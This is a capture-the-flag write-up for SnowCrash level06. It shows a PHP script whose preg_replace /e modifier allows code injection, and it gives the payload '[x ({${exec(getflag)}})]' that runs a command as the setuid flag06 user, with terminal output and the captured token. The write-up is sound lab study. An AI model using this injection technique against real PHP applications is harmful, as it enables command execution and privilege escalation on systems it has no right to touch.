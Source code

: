 # level06

## Recognition

There is a php script and an executable which executes the script as flag06.

```bash
level06@SnowCrash:~$ ls -l
total 12
-r--r-----+ 1 level06 level06    0 May  6 16:15 file
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

This script is a php script which opens a file after going through a bunch of regexes, one of them uses the `e` modiffier flag which performs `eval` on the matched content.
```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./",  " x ",  $m);
    $m = preg_replace("/@/",   " y",   $m);
    return $m;
}


function x($y, $z)
{ 
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e",   "y(\"\\2\")",   $a);
    $a = preg_replace("/\[/",              "(",            $a);
    $a = preg_replace("/\]/",              ")",            $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

</br>
</br>

## Exploitation

We need to find a way to bypass the regexes to execute our payload, first we can see that it will open the file refernced in `argv[1]` and try to evaluate it if it matches the regex `(\[x (.*)\])`.

We can then use that as a vector to introduce our payload 
```
[x (PAYLOAD)]
```


Then, by using the php expression `${exec(getflag)}` which will
create a variable containing a simple php call to `exec` running the `getflag` command, which will then need to be interpolated into the string with the `{}` expression.
Since the string, if it matches the regex, will be executed, it results in executing the `getflag` command as the flag06 user.
```
[x ({${exec(getflag)}})]
```

We can then exploit the script like this
```bash
level06@SnowCrash:~$ echo '[x ({${exec(getflag)}})]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
()
```

